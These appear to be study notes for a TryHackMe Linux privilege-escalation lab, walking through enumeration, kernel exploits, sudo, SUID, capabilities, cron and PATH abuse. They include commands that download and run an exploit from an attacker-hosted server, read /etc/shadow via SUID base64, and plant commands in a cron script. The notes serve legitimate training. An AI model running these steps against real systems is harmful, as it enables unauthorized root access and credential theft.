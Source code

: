 # Room
https://tryhackme.com/room/linprivesc

# Task 1 - Intro
Intro

# Task 2 - What is privilege escalation
* privilege escalation involves moving from a lower permission account to a higher permission account
* privilege escalation is the exploitation of a design flaw to gain unauthorized access

# Task 3 - enumeration
* post system access, you'll need to enumerate the machine to figure out if there is any opportunity for privilege escalation
* useful commands to gain info on a system you have access to - these are Linux related
    * hostname - print hostname
    * uname -a - print kernel details
    * cat /proc/version - provides kenerl and process details
    * cat /etc/issue - contains info abuot the OS
    * ps - list system processes
        * ps -A - view all running procs
        * ps axjf - view process tree
        * ps aux - view procs for all users
    * env - view environment variables
    * sudo -l - list the current users sudo privileges
    * ls - list files
    * id - list the uid, gid, and groups that the current user belongs to
    * cat /etc/passwd - a list of users and services on the machine
    * history - view the command history of the current user
    * ifconfig - view network interface configuration
    * ip route - list assigned/configured network routes
    * netstat - list listening and established connections to the machine
        * netstat -at - list IPv4/IPv6 TCP connections
        * netstat -au - list IPv4/IPv6 UDP connections
        * netstat -l - list all listening services
        * netstat -s, netstat -st, netstat -su - list stats for the network, tcp only, udp only
        * netstat -i - show interface stats
    * find - find things on the system
        * find . -name flag1.txt - find the thing named flag1.txt in the current directory
        * find /home -name flag1.txt - find the thing named flag1.txt in the /home directory
        * find / -type d -name config - find the directory named config in the root
        * find / type f -perm 0777 - find files with permissions set to 0777
        * find / -perm a=x - find executable things
        * find /home -user frank - find things that frank owns in the home directory
        * find / -mtime 10 - find things modified in the last 10 days
        * find / -atime 10 - find things that were accessed in the last 10 days
        * find / -cmin -60 - find things changed in the last hour
        * find / -amin -60 - find things accessed in the last hour
        * find / -size 50M - find things with a 50 meg file size
            * you can also use + or - for sizings to find things less than or larger than what you are searching for
        * to avoid all the permissions spam redirect your find commands to null
            * 2> /dev/null

# Task 4 - automated enumeration tools
* a few automated tools
    * https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
    * https://github.com/rebootuser/LinEnum
    * https://github.com/mzet-/linux-exploit-suggester
    * https://github.com/diego-treitos/linux-smart-enumeration
    * https://github.com/linted/linuxprivchecker

# Task 5 - privilege escalation - kernel exploits
* manually exploit a kernel vulnerability
    * connect to the machine using the creds provided
    * recon
        * target: uname -a
    * since we already know this is a kernel vulnerability, search google for the exploit
        * 3.13.0-24-generic exploit
        * https://www.exploit-db.com/exploits/37292
    * Kali has a preconfigured exploit on the attack box, host it up and transfer it to the target
        * attacker: searchsploit -m 37292 .
        * attacker: python -m http.server 9393
        * target: cd /tmp
        * target: wget http://10.10.10.10:9393/37292.c
        * target: gcc 37282.c -o e
        * target: chmod +x e
        * target: ./e
        * target: whoami

# Task 6 - privilege escalation - sudo
* sudo allows you to run a program with root privileges
* to list what programs you can use with sudo, type sudo -l
* you can perform privilege escalation with a number of commands that have been enabled for you with sudo
    * https://gtfobins.github.io/
* LD_PRELOAD is a function that allows any program to use shared libraries
* some systems may have the LD_PRELOAD environment option enabled, if so you can exploit that
* LD_PRELOAD exploitation works as follows
    * check for the LD_PRELOAD option with env_keep - sudo -l
    * write a simple c script and compile it as a shared object file, .so extension
    * run the shared object file along with your sudo enabled command
        * sudo LD_PRELOAD=/tmp/example.so find

# Task 7 - privilege escalation - suid
* file permissions : read, write, execute
* SUID bit
    * user executes file with permissions of file owner
    ```
    rw-rw-rw-
      |
      |--- SUID bit
      |
    rwSrw-rw-
    ```
* SGID bit
    * user executes file with permissions of group owner
    ```
    rw-rw-rw-
         |
         |--- SGID bit
         |
    rw-rwSrw-    
    ```
* Searching for these types of files
    ```
    find / -perm -u=s -type f 2>/dev/null
    find / -type f -perm -04000 -ls 2>/dev/null
    ```
* SUID escalation can be found using resources like gtfobins
    * https://gtfobins.github.io/#+suid
* taking advantage of base64 and SUID
    * LFILE=/etc/shadow
    * /usr/bin/base64 "$LFILE" | base64 --decode

# Task 8 - privilege escalation - capabilities
* capabilities changes the the binary instead of the user permission
* getcap -r / 2>/dev/null

# Task 9 - privilege escalation - cron jobs
* cron jobs are used to run scripts or binaries at certain times
* by default cron jobs are run with the privilege of the owner
* cron jobs are stored as crontabs - cron tables
* each user on the system has a crontab
* /etc/crontab
* challenge
    * Login with the creds given.  Grab the number of cron jobs with cat /etc/crontab.  Look for an exploitable cron job.  Edit the backup.sh script and append commands that will cat out the flag and the /etc/shadow file into output you have access to

# Task 10 - privilege escalation - path
* you can hijack an application to run a script if a user has write permission in the path
* PATH is an environmental variable that tells the OS wehre to search for executables
* echo $PATH
* challenge
    * Login with the creds given.  Find writable directories with find / -writable 2>/dev/null.  Look for an interesting directory to write to.  Export that directory to the $PATH environment variable.  Create a simple bash script that will read the contents of the flag.  Run the test executable